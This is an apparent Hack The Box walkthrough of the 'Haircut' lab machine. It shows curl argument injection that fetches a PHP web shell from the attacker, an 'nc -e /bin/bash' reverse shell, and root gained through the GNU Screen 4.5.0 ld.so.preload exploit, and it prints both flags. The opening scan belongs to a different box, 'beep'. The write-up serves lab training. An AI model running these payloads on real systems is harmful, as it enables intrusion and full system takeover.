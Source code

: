 # Scan

```bash
ghost@localhost [16:32:47] [~/Documents/hacking/tj-null-boxes/beep] [master]
-> % rustscan -a $IP -- -sC -sV

Open 10.10.10.7:22
Open 10.10.10.7:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e975c1e4b3633c93f2c618083648ce36 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDo4pezhJs9c3u8vPWIL9eW4qxQOrHCslAdMftg/p1HDLCKc+9otg+MmQMlxF7jzEu8vJ0GPfg5ONRxlsfx1mwmAXmKLh9GK4WD2pFbg4iFiAO/BAUjs3dNdR1S9wR6F+yRc2jgIyKFJO3JohZZFnM6BrTkZO7+IkSF6b3z2qzaWorHZW04XHdbxKjVCHpU5ewWQ5B32ScKRJE8bsi04Z2lE5vk1NWK15gOqmuyEBK8fcQpD1zCI6bPc5qZlwrRv4r4krCb1h8zYtAwVnoZdtYVopfACgWHxqe+/8YqS8qo4nPfEXq8LkUc2VWmFztWMCBuwVFvW8Pf34VDD4dEiIwz
|   256 8700aba98f6f4bbafbc67a55a860b268 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLrPH0YEefX9y/Kyg9prbVSPe3U7fH06/909UK8mAIm3eb6PWCCwXYC7xZcow1ILYvxF1GTaXYTHeDF6VqX0dzc=
|   256 b61b5ca9265cdc61b775906c88516e54 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA+vUE7P+f2aiWmwJRuLE2qsDHrzJUzJLleMvKmIHoKM
80/tcp open  http    syn-ack nginx 1.10.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD
|_http-title:  HTB Hairdresser
|_http-server-header: nginx/1.10.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


# 80

```bash
ghost@localhost [16:39:03] [~/Documents/hacking/tj-null-boxes/haircut] [master]
-> % feroxbuster -u http://10.10.10.24:80 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -k

200      GET        7l       15w      144c http://10.10.10.24/
301      GET        7l       13w      194c http://10.10.10.24/uploads => http://10.10.10.24/uploads/
403      GET        7l       11w      178c http://10.10.10.24/uploads/
```

I downloaded the image and check if it is stenography and it is not.

Nothing interesting there, I checked `/index.html` and it returns the homepage. This time,  I try with `medium` word list. This time I found `exposed.php`.

```bash
ghost@localhost [16:46:20] [~/Documents/hacking/tj-null-boxes/haircut] [master *]
-> % feroxbuster -u http://10.10.10.24:80 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -k -x php

200      GET        7l       15w      144c http://10.10.10.24/
301      GET        7l       13w      194c http://10.10.10.24/uploads => http://10.10.10.24/uploads/
403      GET        7l       11w      178c http://10.10.10.24/uploads/
200      GET       19l       41w        0c http://10.10.10.24/exposed.php
```

It is an input form, and if I enter my IP address, the target machine will access my Python server. Also my entering an invalid host name, I can see the error message and it shows that it is using curl.

```bash
% Total % Received % Xferd Average Speed Time Time Time Current Dload Upload Total Spent Left Speed 0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0 0 0 0 0 0 0 0 0 --:--:-- 0:00:01 --:--:-- 0 0 0 0 0 0 0 0 0 --:--:-- 0:00:02 --:--:-- 0 0 0 0 0 0 0 0 0 --:--:-- 0:00:03 --:--:-- 0 0 0 0 0 0 0 0 0 --:--:-- 0:00:04 --:--:-- 0 0 0 0 0 0 0 0 0 --:--:-- 0:00:05 --:--:-- 0 0 0 0 0 0 0 0 0 --:--:-- 0:00:06 --:--:-- 0 0 0 0 0 0 0 0 0 --:--:-- 0:00:07 --:--:-- 0 0 0 0 0 0 0 0 0 --:--:-- 0:00:08 --:--:-- 0 0 0 0 0 0 0 0 0 --:--:-- 0:00:09 --:--:-- 0curl: (6) Could not resolve host: somewhere
```

I tried `;` and `|`, they both failed. Seems to be filtering. However, `$` is not failing. Therefore, I can use that to inject a malicious command in between together with `-o` command from curl.

So I hosted a PHP payload script on local, and download it under `/var/www/html/uploads`.

```bash
10.10.14.8/payload.php%20-o%20/var/www/html/uploads/payload.php
```

This is the PHP payload.

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

Then with the following script, I can get back the reverse shell.

```bash
nc -nv 10.10.14.8 4444 -e /bin/bash


ghost@localhost [17:21:29] [~/Documents/hacking/tj-null-boxes/haircut] [master *]
-> % nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.24] 45854
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


# Privilege escalation

Nothing interesting with Linpeas, so I manually check SUID permissions.

```bash
www-data@haircut:/dev/shm$ find / -perm -4000 2>/dev/null | xargs ls -la
-rwsr-xr-x 1 root   root         30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root   root         40152 Dec 16  2016 /bin/mount
-rwsr-xr-x 1 root   root        142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root   root         44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root   root         44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root   root         40128 May  4  2017 /bin/su
-rwsr-xr-x 1 root   root         27608 Dec 16  2016 /bin/umount
-rwsr-sr-x 1 daemon daemon       51464 Jan 14  2016 /usr/bin/at
-rwsr-xr-x 1 root   root         49584 May  4  2017 /usr/bin/chfn
-rwsr-xr-x 1 root   root         40432 May  4  2017 /usr/bin/chsh
-rwsr-xr-x 1 root   root         75304 May  4  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root   root         32944 May  4  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root   root         39904 May  4  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root   root         32944 May  4  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root   root         54256 May  4  2017 /usr/bin/passwd
-rwsr-xr-x 1 root   root         23376 Jan 18  2016 /usr/bin/pkexec
-rwsr-xr-x 1 root   root       1588648 May 19  2017 /usr/bin/screen-4.5.0
-rwsr-xr-x 1 root   root        136808 Jan 20  2017 /usr/bin/sudo
-rwsr-xr-- 1 root   messagebus   42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root   root         10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root   root        428240 Mar 16  2017 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root   root         14864 Jan 18  2016 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root   root        208680 Apr 29  2017 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root   root         38984 Mar  7  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
```

So I found an interesting SUID `screen-4.5.0`. From searchsploit, I can see that it is vulnerable to local privilege escalation.

```bash
ghost@localhost [18:37:37] [~/Documents/hacking/tj-null-boxes/haircut] [master *]
-> % searchsploit screen 4.5
------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                          |  Path
------------------------------------------------------------------------ ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                           | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                     | linux/local/41152.txt
------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
Papers: No Results
```

But the automated scripts failed because it cannot find `cc1` on the target machine. I tried compiling on local, but also failed because my system has `Glibc` higher than the target machine.

One possible solution is by installing older glibc or compile inside the docker. But it is too much work. Instead I followed this blog post (https://ivanitlearning.wordpress.com/2020/08/25/compiling-setuid0-code/) and the solution is to find where `cc1` is installed in the target system.

First upload the exploits onto the target machine.

```bash
$ curl 10.10.14.8/libhax.c -o /tmp/libhax.c

$ curl 10.10.14.8/rootshell.c -o /tmp/rootshell.c
```

Then find `cc1`.

```bash
$ /tmp $ locate cc1
/etc/ssl/certs/6fcc125d.0
/lib/modules/4.4.0-77-generic/kernel/drivers/iio/adc/cc10001_adc.ko
/lib/modules/4.4.0-78-generic/kernel/drivers/iio/adc/cc10001_adc.ko
/usr/lib/gcc/x86_64-linux-gnu/5/cc1
/usr/lib/gcc/x86_64-linux-gnu/5/libcc1.so
/usr/lib/gcc/x86_64-linux-gnu/5/plugin/libcc1plugin.so
/usr/lib/gcc/x86_64-linux-gnu/5/plugin/libcc1plugin.so.0
/usr/lib/gcc/x86_64-linux-gnu/5/plugin/libcc1plugin.so.0.0.0
/usr/lib/x86_64-linux-gnu/libcc1.so.0
/usr/lib/x86_64-linux-gnu/libcc1.so.0.0.0
/usr/share/doc/libcc1-0
/usr/share/doc/libgcc1
/usr/share/doc/libisccc140
/usr/share/doc/libisccc140/changelog.Debian.gz
/usr/share/doc/libisccc140/copyright
/usr/share/lintian/overrides/libgcc1
/usr/share/terminfo/x/xterm+pcc1
/usr/src/linux-headers-4.4.0-77-generic/include/config/cc10001
/usr/src/linux-headers-4.4.0-77-generic/include/config/cc10001/adc.h
/usr/src/linux-headers-4.4.0-78-generic/include/config/cc10001
/usr/src/linux-headers-4.4.0-78-generic/include/config/cc10001/adc.h
/var/lib/dpkg/info/libcc1-0:amd64.list
/var/lib/dpkg/info/libcc1-0:amd64.md5sums
/var/lib/dpkg/info/libcc1-0:amd64.shlibs
/var/lib/dpkg/info/libcc1-0:amd64.symbols
/var/lib/dpkg/info/libcc1-0:amd64.triggers
/var/lib/dpkg/info/libgcc1:amd64.list
/var/lib/dpkg/info/libgcc1:amd64.md5sums
/var/lib/dpkg/info/libgcc1:amd64.postinst
/var/lib/dpkg/info/libgcc1:amd64.shlibs
/var/lib/dpkg/info/libgcc1:amd64.symbols
/var/lib/dpkg/info/libgcc1:amd64.triggers
/var/lib/dpkg/info/libisccc140:amd64.list
/var/lib/dpkg/info/libisccc140:amd64.md5sums
/var/lib/dpkg/info/libisccc140:amd64.shlibs
/var/lib/dpkg/info/libisccc140:amd64.triggers
/var/tmp/systemd-private-ccc1121e12414e109a058b30dc8b6713-systemd-timesyncd.service-AOmIUo
```

Once it is found, we updated the path.

```bash
$ export PATH=$PATH:/usr/lib/gcc/x86_64-linux-gnu/5
```

Then compile both shared library and the executable.

```bash
$ gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c

$ gcc -o /tmp/rootshell /tmp/rootshell.c
```

After that following the script and executes

```bash
$ cd /etc

$ umask 000

$ screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so"

$ screen -ls # screen itself is setuid, so...

$ /tmp/rootshell

# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)

# cat /home/maria/user.txt
7b1b9d3f75797a337576dbadc7ffc96e

# cat /root/root.txt
7ce42237f2cd6b9ed30e9f526693e284
```
